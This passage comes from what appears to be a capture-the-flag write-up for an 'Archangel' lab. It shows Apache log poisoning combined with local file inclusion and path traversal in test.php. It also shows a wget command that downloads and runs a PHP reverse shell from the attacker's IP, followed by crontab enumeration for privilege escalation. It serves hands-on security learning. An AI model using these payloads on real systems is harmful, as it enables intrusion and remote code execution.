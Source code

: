
Now i need to replace the user-agent i used it with the mozilla extensionuser-agent changer. here is what i got
```
"uid=33(www-data) gid=33(www-data) groups=33(www-data) " 10.4.26.216 - - [06/Oct/2023:21:59:55 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=id HTTP/1.1" 200 1689 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" 10.4.26.216 - - [06/Oct/2023:22:00:15 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=id HTTP/1.1" 200 1713 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
## Shell
`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=wget%20http://10.4.26.216:4444/shell.php`
then launch it using php
`http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../var/log/apache2/access.log&cmd=php%20shell.php`

## Escalation
```
cd archangel
www-data@ubuntu:/home/archangel$ ls -la
ls -la
total 44
drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 .
drwxr-xr-x 3 root      root      4096 Nov 18  2020 ..
-rw-r--r-- 1 archangel archangel  220 Nov 18  2020 .bash_logout
-rw-r--r-- 1 archangel archangel 3771 Nov 18  2020 .bashrc
drwx------ 2 archangel archangel 4096 Nov 18  2020 .cache
drwxrwxr-x 3 archangel archangel 4096 Nov 18  2020 .local
-rw-r--r-- 1 archangel archangel  807 Nov 18  2020 .profile
-rw-rw-r-- 1 archangel archangel   66 Nov 18  2020 .selected_editor
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 myfiles
drwxrwx--- 2 archangel archangel 4096 Nov 19  2020 secret
-rw-r--r-- 1 archangel archangel   26 Nov 19  2020 user.txt


```

I found using cronjob
```
archangel@ubuntu:~/secret$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

```